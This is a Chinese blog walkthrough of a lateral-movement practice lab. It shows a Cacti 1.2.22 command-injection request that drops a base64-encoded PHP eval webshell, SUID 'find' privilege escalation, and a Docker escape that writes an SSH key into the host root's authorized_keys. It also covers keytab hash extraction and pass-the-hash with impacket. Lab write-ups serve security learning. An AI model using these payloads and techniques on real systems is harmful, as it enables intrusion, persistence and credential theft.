title: 域渗透靶场记录
author: John Jue
date: 2024-03-31 09:23:14
tags:
---
# xBitsPlatform-How2MoveLaterally

<a href="https://www.xbitsplatform.com/">靶场地址</a>



首先查看自己所在的网段，利用fscan进行信息收集


初步信息收集发现了几个网段

```powershell
E:\***\fscan>fscan64.exe -h 10.0.0.0/16

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.1
start infoscan
(icmp) Target 10.0.2.1        is alive
(icmp) Target 10.0.2.105      is alive
(icmp) Target 10.0.2.100      is alive
(icmp) Target 10.0.2.152      is alive
(icmp) Target 10.0.2.200      is alive
(icmp) Target 10.0.2.198      is alive
[*] LiveTop 10.0.0.0/16      段存活数量为: 6
[*] LiveTop 10.0.2.0/24      段存活数量为: 6
[*] Icmp alive hosts len is: 6
10.0.2.200:22 open
10.0.2.105:445 open
10.0.2.100:445 open
10.0.2.152:22 open
10.0.2.105:139 open
10.0.2.105:135 open
10.0.2.1:80 open
10.0.2.100:139 open
10.0.2.100:135 open
10.0.2.198:445 open
10.0.2.198:139 open
10.0.2.100:88 open
10.0.2.198:135 open
10.0.2.152:80 open
10.0.2.200:10004 open
[*] alive ports len is: 15
start vulscan
[*] WebTitle:http://10.0.2.1           code:200 len:10178  title:Flower
[+] NetInfo:
[*]10.0.2.198
   [->]server01
   [->]10.0.2.198
[+] NetInfo:
[*]10.0.2.105
   [->]server02
   [->]10.0.2.105
[+] NetInfo:
[*]10.0.2.100
   [->]dc
   [->]10.0.2.100
[*] 10.0.2.198           MOVE\SERVER01
[*] WebTitle:http://10.0.2.152         code:200 len:13998  title:登录到Cacti
[*] 10.0.2.100     [+]DC MOVE\DC
[*] 10.0.2.105           MOVE\SERVER02
[+] http://10.0.2.1 poc-yaml-ecology-workflowservicexml linux
```

发现一个Cacti，版本为1.2.22


通过github对应用版本进行漏洞检索


构造如下数据包，由于RCE不能有空格，对于webshell进行base64编码
```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`echo+PD9waHAgQGV2YWwoJF9SRVFVRVNUWydzaGVsbCddKTsgPz4=+|+base64+-d+>+/var/www/html/shell.php` HTTP/1.1
X-Forwarded-For:127.0.0.1
Host: 10.0.2.152
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```


成功连接webshell


发现存在`.dockerenv`文件，环境为docker


查看/dev文件发现有很多文件，说明是特权模式启动


```逃逸
mkdir /cyb0rg && mount /dev/vda1 /cyb0rg
chroot /cyb0rg
```
使用mkdir命令发现权限不够，需要先提权


查找suid文件
```
find / -user root -perm -4000 -exec ls -ldb {} \
```
找到一个find，可以尝试<a href="https://gtfobins.github.io/gtfobins/find/">find提权</a>


```
find . -exec /bin/sh -p -c whoami \; -quit
```


通过 root 权限挂载磁盘一直失败，但是发现了一个挂载目录`/mnt/cacti`


发现主机目录，用echo+base64的方式写入公钥


```
find . -exec /bin/sh -p -c 'echo c3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQUJBQUFCZ1FEU2trU2NHVkh1OHUxb1JKdHU0MitjMDRyT3lhRXd1NHlyeUUzYjBPQVI2Y01FdkJ2RktVYkdPS3huVmx0Lzlpem5OTmR5Syt5OEJTaWVwcUVETjJmTjR2Sm1QWjlMU0IwZGJPSmNsVjQrbVhlUGpSbitPYU4vYk1oRXJ2WUxzWGF5WDdLdUlWOXdVK1dJM0tuejZpMGttY3hyc2JaSDdZL0h3eWIzYVhJdVNyMXhLcTRETEtyejlBaUl4NE02UThvamUyRTkrU3hVbkRXWVRVN0ppTE42R0psc2ZPazJ1aDJsRm9DdkgyRmtLWEVacWw0QlVnZ1R6WHo2S2NwNzQ3K2hhRjRtTysvcWFXTEJHQ3Z5djA5VWF3alZ0TCs4MkY3MFpseTZCV3FPc1c5aUdtZWppejgzdmhXS0hhNnJNWG1hZTJSVUtOemhYMUpYT29HeWJsZ2orc2xUck5GZUZJcUpRRkNNSjlCWkhTMEZ6S3FkcHk5MHV2V2ZDM1dET3NZZHpYTnUyV1pIS1YxWGl6UGtMODc3TGpOOUh0bnhmK0hCL3FUMDJhcE9YZGxUMnQxRGs4ckZhYWdXempDMW96UzRhZXdhaktmTDZxcGtnZkV4d3gycSsvdDlFMC9CR3l6WGlOb2F5a2U4QTFHYUZZWTZIV2FUTktUWVBYOUs2Qms9IGxlbm92b0BMQVBUT1AtRTlDTkYxNzE= | base64 -d > /mnt/cacti/root/.ssh/authorized_keys' \; -quit
```
写入公钥，公钥ssh连接服务器


成功逃逸docker


## linux信息收集
题目提示存在dc.move.lab域，查看linux的dns

```resolv.conf的关键字
nameserver：定义DNS服务器的IP地址
domain：定义本地域名
search：定义域名的搜索列表
sortlist：对返回的域名进行排序
注意：这里最主要的就是nameserver关键字，如果没有指定nameserver就找不到DNS服务，其它关键字是可选的。
```
ping这个dns发现ttl为128，是windows服务器


查看ldap配置


域为 move.lab，利用grep搜索信息


```
ccache 文件地址是通过配置文件 /etc/krb5.conf 中的参数 default_ccache_name来配置的，在 linux 操作系统中一般是配置为 FILE:/tmp/krb5cc_%{uid}，实际对应文件 /tmp/krb5cc_0 等；
```
使用find发现了票据文件


设置环境变量为这个票据，并使用 ldapsearch 导出信息
```
export KRB5CCNAME=/tmp/krb5cc_1680801105 
ldapsearch -b "dc=move,dc=lab" -H ldap://10.0.2.100
```
这里认证失败了



直接使用打包好的impacet工具-elf 程序;
GetADUsers_linux_x86_64地址：https://mygit.osfipin.com/release/15079501
```
./GetADUsers_linux_x86_64  move.lab/linux_ldap -k  -no-pass -all
```



换一个工具：https://github.com/sosdave/KeyTabExtract


靶机没有python3环境，需要把krb5.keytab文件拖到攻击机上用脚本获取hash

这里获取的hash有问题，可能有人改了文件，
```
E:\*\KeyTabExtract-master>python keytabextract.py attack/krb5.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : MOVE.LAB
        SERVICE PRINCIPAL : restrictedkrbhost/DOCKER-CACTI
        NTLM HASH : dc407ef0902ed36e101c7be24208ac21
        AES-256 HASH : 4a1ac0b60036aaf8785bc6b72aa38e12e946c000c3f75969cee5862dae7e7e04
        AES-128 HASH : dfaea063b52242dd08429ef521f60ca6
```
用官方wp给的hash进行传递
```
./GetADUsers_linux_x86_64  move.lab/cacti\$ -hashes 7eb5e976f35341c3a9aa667a7a701ec0:7eb5e976f35341c3a9aa667a7a701ec0  -all
```
impacket可以枚举用户的功能(ldap信息搜集)


本机(windows)进入mimikiz界面

----环境太垃圾，先不做了


